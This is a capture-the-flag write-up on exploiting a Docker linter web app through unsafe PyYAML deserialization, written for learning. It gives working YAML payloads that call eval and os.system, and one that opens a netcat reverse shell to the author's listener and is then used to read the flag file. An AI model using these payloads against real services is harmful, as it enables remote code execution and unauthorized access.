

# HV20.19 Docker Linter Service

_Docker Linter is a useful web application ensuring that your Docker-related files follow best practices. Unfortunately, there's a security issue in there..._

## Requirements

_This challenge requires a reverse shell. You can use the provided Web Shell or the VPN to solve this challenge (see `RESOURCES` on top)._

_Note: The VPN connection information has been updated._

---



There are the following linting service:

- **Dockerfile**
    - [hadolint](https://github.com/hadolint/hadolint)
    - [dockerfile_lint](https://github.com/projectatomic/dockerfile_lint)
    - [dockerlint.js](https://www.npmjs.com/package/dockerlint)
- **docker-compose.yml**
    - Basic syntax check
    - yamllint
    - docker-compose
- **.env files**
    - [dotenv-linter](https://github.com/dotenv-linter/dotenv-linter)

From the beginning, I was suspicious about the YAML deserialization (i.e. linters for Docker compose)
as I have seen it being vulnerable before.

I found this [CTF write-up](https://hackmd.io/@harrier/uiuctf20) and
[YAML Deserialization Attack in Python](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf).

My first payload was a simple test, if I can get code execution:
```yaml
!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ '__import__("time").sleep(10)' ]]]
```

Yes, I can. The response was delayed by 10 seconds. The next payload was pretty much the same
but this time using a shell command:
```yaml
!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('os').system('sleep 10')" ]]]
```

Works! Time go get the reverse shell. At first, open a listening port in the web console:
```
Linux 6b6bd84b-cb5f-49fe-9cda-083a9bf654ee 3.10.0-1127.19.1.el7.x86_64 #1 SMP Tue Aug 25 17:23:54 UTC 2020 x86_64
Welcome to the Hacking-Lab Web Shell.
Your IP is 10.2.0.5. Only use ports 1337 or 4242 for reverse shells!
hacker@6b6bd84b-cb5f-49fe-9cda-083a9bf654ee:~$ nc -lv
listening on [any] 38413 ...
```

YAML payload:
```
!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('os').system('nc 10.2.0.5 38413 -e /bin/sh')" ]]]
```

Back to the web console:
```
connect to [10.2.0.5] from tmp_docker-linter-6f37230f-1144-4b7d-b6c7-c6c2221e2519_1.tmp_default [10.2.0.4] 37963
$ ls
app.py
bin
dockerfile_lint_rules
flag.txt
linting.py
node_modules
package-lock.json
requirements.txt
static
templates
$ cat flag.txt
HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}
```
